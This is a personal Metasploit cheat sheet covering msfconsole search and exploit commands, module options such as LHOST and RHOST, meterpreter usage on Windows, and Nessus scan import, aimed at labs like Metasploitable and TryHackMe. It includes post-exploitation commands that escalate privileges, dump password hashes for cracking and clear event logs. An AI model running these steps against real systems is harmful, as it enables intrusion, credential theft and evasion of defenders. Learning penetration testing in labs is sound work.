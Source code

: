 # metasploit

<hr class="sl">

## Introduction

<div class="row row-cols-md-2"><div>

The [Metasploit Framework](https://github.com/rapid7/metasploit-framework) is a penetration testing framework that you can use to test your systems.

If you want to test your skills, download the Vulnerable OS [Metasploit 2](https://docs.rapid7.com/metasploit/metasploitable-2/), or [Metasploit3](https://github.com/rapid7/metasploitable3). You can install it on a VM.

* **Username**: `msfadmin`. **Password**: `msfadmin`
* Before the keyword is using QWERTY. You can swap once logged (`sudo loadkeys fr`).

</div><div>

Metasploit is divided into modules

* **Encoders**
* **Evasion**
* **Exploits**
* **NOPs**
* **Payloads** <small>(single/inline, and not inline)</small>: how the framework will send data
* **Post**: scripts to start the meterpreter, or convenient functions such as `hashdump`.

> **Auxiliary**, if available, can be used to check if an exploit can be used on a target.
</div></div>

<hr class="sr">

## msfconsole

<div class="row row-cols-md-2"><div>

This is a console in which you can search an exploit, test if the target is vulnerable, and use the exploit on the target.

Start the console

```bash
$ msfconsole -q
msf6 >
```

Search an exploit. It returns a list of modules, with an index, and a name, that can be "used" later.

```bash
msf6 > search word1 word2 # simple search for words in name/description
msf6 > search service # ex: apache, ftp...
msf6 > search module # ex: exploit/windows/http/xxx
msf6 > search CVE-YEAR-ID
msf6 > search type:auxiliary # search auxiliaries
msf6 > search platform:... 
```

Use an exploit

```bash
msf6 > use module_name # ex: exploit/windows/http/xxx
msf6 > use module_index # ex: 0
```
</div><div>

See the options required by the module. Find properties marked "required", but with no default value.

```bash
msf6 exploit('module_used') > options
msf6 exploit('module_used') > show options # same
# set an option
msf6 exploit('module_used') > set <option> <value>
```

<details class="details-e">
<summary>Usual modules options</summary>

* `set LHOST <value>`: ip of the attacker
* `set RHOST(s) <value>`: ips of the defenders
* `set RPORT <value>`: port of the defender
* `set TARGETURI <value>`: an URI (ex: location to a script)
* `set use <module>`: use another module
* `set PAYLOAD <value>`: use another module
</details>

Once ou filled everything you need to, run the exploit. If you were successful, a meterpreter will be created allowing you to access a short of enhanced <small>(with more features)</small> shell of the target.

```bash
msf6 exploit('module_used') > run
msf6 exploit('module_used') > exploit # same
# ...
# if you were successful
meterpreter >
```
</div></div>

> **TryHackMe note**: you need to start the VPN on the host, and use `set LHOST tun0`, or the correct network interface used by the VPN.

<br><br>

📌 Advanced usage 📌

<div class="row row-cols-md-2"><div>

You can ask for "help"

```bash
msf6 exploit('module_used') > help set
```

You can see the history of the command you used

```bash
msf6 exploit('module_used') > history
```

If you don't plan to use an exploit, you can go back

```bash
msf6 exploit('module_used') > back
msf6 > 
```

You can check if an exploit is available before running it. It will only work if there is an auxiliary for this exploit.

```bash
msf6 exploit('module_used') > check
```
</div><div>

If you want to unset a variable, or all variables...

```bash
msf6 exploit('module_used') > unset RHOSTS
msf6 exploit('module_used') > unset all
# even if you go back, every module with have
# this value for RHOSTS, unless, you use unset
msf6 exploit('module_used') > setg RHOSTS xxx
```

See, and use another payload

```bash
msf6 > show payloads
msf6 > set payload 1
msf6 > set payload payload_name
```

You can request info about an exploit/...

```bash
msf6 > info module_name # ex: exploit/windows/http/xxx
msf6 > info module_index # ex: 0
```
</div></div>

<hr class="sl">

## Meterpreter on Windows

<div class="row row-cols-md-2"><div>

You can use many Linux commands

```bash
meterpreter > ls # list files
meterpreter > cd # move
meterpreter > pwd # path to current folder
meterpreter > cat file # print file
meterpreter > edit file # open file in vim
```

And there are quite a lof of useful "post" modules

```bash
meterpreter > shell # start a shell
C:\WINDOWS\system32> whoami
meterpreter > getsystem
meterpreter > sysinfo
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM # means that you're an admin
meterpreter > hashdump # dump usernames/password...
# try to bruteforce NTML with john format=nt
meterpreter > clearev # clean logs
```
</div><div>

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > search -f pattern # search file by pattern
meterpreter > search -f pattern from* # ... inside given directories
meterpreter > download c:\\path # download to your machine
meterpreter > upload local_file c:\\path # upload
```
</div></div>

<hr class="sr">

## msfconsole, and nessus

<div class="row row-cols-md-2"><div>

To be honest, it was way more useful to explore results in nessus web interface, but if you don't have one, then this is surely something useful.

![nessus_exploit_with](_images/nessus_exploit_with.png)

First, start a msf database

```bash
$ sudo systemctl start postgresql
$ sudo msfdb init
# I got some errors, but it still works
```

Then in your msfconsole

```bash
$ msfconsole -q
msf6 > db_status # check if connected
[*] Connected to msf. Connection type: postgresql.
```
</div><div>

Everything below is coming from [this tutorial](https://scubarda.com/2015/11/16/launching-nessus-scans-inside-metasploit/).

```bash
msf6 > load nessus
# Connect
msf6 > nessus_connect user:pass@localhost:8834
# List the scans that you did
msf6 > nessus_scan_list
# Import the result of a scan
msf6 > nessus_db_import id_you_found_in_the_list
```

Once you did, there a few commands you can use

* `services`: see what services the target run
* `vulns`: see vulnerabilities
* `vulns -s ftp`: see ftp vulnerabilities
* `vulns -S keyword`: see vulnerabilities including keyword

Then, process as usual.
</div></div>